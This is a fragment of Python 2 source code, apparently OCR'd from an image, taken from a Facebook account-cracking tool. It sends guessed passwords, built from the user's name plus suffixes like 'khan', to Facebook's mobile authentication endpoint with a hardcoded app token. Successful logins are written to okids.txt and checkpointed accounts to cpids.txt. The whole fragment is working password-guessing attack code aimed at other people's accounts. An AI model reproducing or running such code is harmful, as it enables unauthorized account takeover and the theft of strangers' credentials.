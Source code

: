                 q = json.loads(data)

                if 'access_token' in q:

                    print '\x1b[1;32m[OK]\033[0m ' + uid + ' | ' + pass2 + '\x1b[0;97m'

                    ok = open('okids.txt', 'a')

                    ok.write(uid + '|' + pass2 + '\n')

                    ok.close()

                    oks.append(uid + pass2)

                elif 'www.facebook.com' in q['error_msg']:

                    print '\x1b[1;31m[NAME-CP] \033[0m' + uid + ' | ' + pass2 + '\x1b[0;97m'

                    cp = open('cpids.txt', 'a')

                    cp.write(uid + '|' + pass2 + '\n')

                    cp.close()

                    cps.append(uid + pass2)

                else:

                    pass3 = name.lower() + 'khan'

                    data = session.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + uid + '&password=' + pass3 + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header).text

                    q = json.loads(data)

                    if 'access_token' in q:

                        print '\x1b[1;32m[OK]\033[0m ' + uid + ' | ' + pass3 + '\x1b[0;97m'

                        ok = open('okids.txt', 'a')

                        ok.write(uid + '|' + pass3 + '\n')

                        ok.close()

                        oks.append(uid + pass3)

                    elif 'www.facebook.com' in q['error_msg']:

                        print '\x1b[1;31m[NAME-CP] \033[0m' + uid + ' | ' + pass2 + '\x1b[0;97m' #Thanks TechQaiser.& Also SyedZada Bro

                        cp = open('cpids.txt', 'a')

                        cp.write(uid + '|' + pass3 + '\n')

                        cp.close()

                        cps.append(uid + pass3)
